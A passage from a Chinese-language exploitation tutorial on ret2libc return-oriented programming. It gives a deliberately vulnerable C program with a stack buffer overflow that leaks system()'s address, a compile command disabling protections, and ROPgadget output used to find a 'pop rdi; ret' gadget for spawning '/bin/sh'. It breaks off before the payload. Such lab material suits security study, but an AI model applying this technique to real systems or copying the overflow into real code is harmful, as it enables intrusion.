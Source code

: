 ```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <dlfcn.h>

void systemaddr()
{
    void* handle = dlopen("libc.so.6", RTLD_LAZY);
    printf("%p\n",dlsym(handle,"system"));
    fflush(stdout);
}

void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}

int main(int argc, char** argv) {
    systemaddr();
    write(1, "Hello, World\n", 13);
    vulnerable_function();
}
```
> gcc -fno-stack-procter -no-pie -o rop_libc rop_libc1

&emsp;&emsp;我们首先可以看到一个明显的缓冲区溢出，而且程序会自动输出system()在内存中的实际地址，这个时候我们可以想到只需要拥有 **"/bin/sh"** 就可以走上人生巅峰，这个时候我们考虑使用gadgets来将 **"/bin/sh"** 的地址传入 **rdi**。ok，用ROPgadget来搜索一波：  

```shell
ROPgadget 	--binary rop_libc1  --only "pop|ret"
====================================================
0x0000000000001294 : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000001296 : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000001298 : pop r14 ; pop r15 ; ret
0x000000000000129a : pop r15 ; ret
0x0000000000001293 : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000001297 : pop rbp ; pop r14 ; pop r15 ; ret
0x000000000000116f : pop rbp ; ret
0x000000000000129b : pop rdx ; ret
0x0000000000001299 : pop rsi ; pop r15 ; ret
0x0000000000001295 : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000001016 : ret
0x0000000000001072 : ret 0x2f
0x000000000000119a : ret 0xfffe
```
&emsp;&emsp;我们发现结果并不理想，由于这个程序太小了，里面竟然没有 **pop rdi ; ret** 这条指令，那么我们只好换个思路，为什么不直接使用libc.so里的gadgets呢？灵机一动之后，我们想到可用使用write()来泄漏libc.so里的指令地址，话不多说，先搜一下symbols地址：  

```shell
ROPgadget --binary libc.so.6 --only "pop|ret" 
=====================================================
0x000000000002456f : pop rdi ; pop rbp ; ret
0x0000000000023a5f : pop rdi ; ret
```
&emsp;&emsp;果然命中注定的那个它出现了，**0x23a5f：pop rdi ; ret ** 就是我们想要的gadgets，我们可以构造rop链了。  
